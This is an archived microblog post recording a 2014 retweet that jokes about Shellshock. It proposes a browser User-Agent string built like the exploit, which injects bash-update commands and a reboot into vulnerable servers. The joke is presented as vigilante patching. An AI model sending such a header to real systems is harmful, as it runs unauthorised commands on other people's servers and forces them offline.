 ```yaml
---
title: 
category: micro
date: "2014-09-26T17:38:32"
slug: "2014-09-26T17:38:32"
TwitterId: "515556038792081409"
TweetUrl: "https://twitter.com/mark_philpot/status/515556038792081409"
ReTweetUser: pixnbits
---
```


<i class="fa fa-retweet" aria-hidden="true"></i> browsing the web with user
agent `() {.:;.}; yum -y update bash; apt-get -y update bash;
reboot` #shellshock
